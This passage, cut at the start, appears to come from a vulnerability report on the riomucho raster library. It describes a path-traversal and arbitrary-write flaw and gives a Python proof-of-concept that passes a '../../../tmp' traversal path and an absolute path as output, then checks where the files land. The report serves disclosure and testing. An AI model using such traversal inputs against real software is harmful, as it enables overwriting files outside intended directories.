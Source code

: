             ...
    ```
    3. `rasterio.open(..., "w", ...)` function from the `rasterio` library will directly open the file path provided in write mode, including paths with traversal sequences like `..` or absolute paths.
* **Security Test Case:**
    1. **Setup:** Create a directory `/tmp/test_rio_mucho_output_intended` which is the intended output directory.
    2. **Script:** Create a python script `test_output_traversal.py`:
    ```python
    import riomucho
    import rasterio
    import os

    def read_function_simple(data, window, ij, g_args):
        return data[0]

    input_path = "/tmp/test_1.tif" # Assuming test_1.tif exists from conftest.py or create a dummy one
    output_dir_intended = "/tmp/test_rio_mucho_output_intended"
    output_path_traversal = "../../../tmp/malicious_output.tif" # Path traversal to write outside intended dir
    output_path_absolute = "/tmp/malicious_output_abs.tif" # Absolute path to write outside intended dir

    # Ensure intended output dir exists
    os.makedirs(output_dir_intended, exist_ok=True)

    # Test path traversal output
    try:
        with riomucho.RioMucho(
            [input_path],
            output_path_traversal, # Using path traversal in output path
            read_function_simple
        ) as rm:
            rm.run(1)
        print(f"RioMucho run with traversal output completed (potentially vulnerable). Check for file in /tmp/malicious_output.tif")
    except Exception as e:
        print(f"RioMucho run with traversal output failed with error: {e}")

    # Test absolute path output
    try:
        with riomucho.RioMucho(
            [input_path],
            output_path_absolute, # Using absolute path in output path
            read_function_simple
        ) as rm:
            rm.run(1)
        print(f"RioMucho run with absolute output completed (potentially vulnerable). Check for file in /tmp/malicious_output_abs.tif")
    except Exception as e:
        print(f"RioMucho run with absolute output failed with error: {e}")
    ```
    3. **Run:** Execute the script `python test_output_traversal.py` from a location such that `../../../tmp/malicious_output.tif` correctly resolves to `/tmp/malicious_output.tif`. Ensure `test_1.tif` exists at `/tmp/test_1.tif` or replace with a valid input raster path.
    4. **Observe:** Check if `malicious_output.tif` and `malicious_output_abs.tif` files are created in the `/tmp` directory. If these files are created in `/tmp` instead of the intended output directory `/tmp/test_rio_mucho_output_intended`, it confirms the path traversal and arbitrary write vulnerability.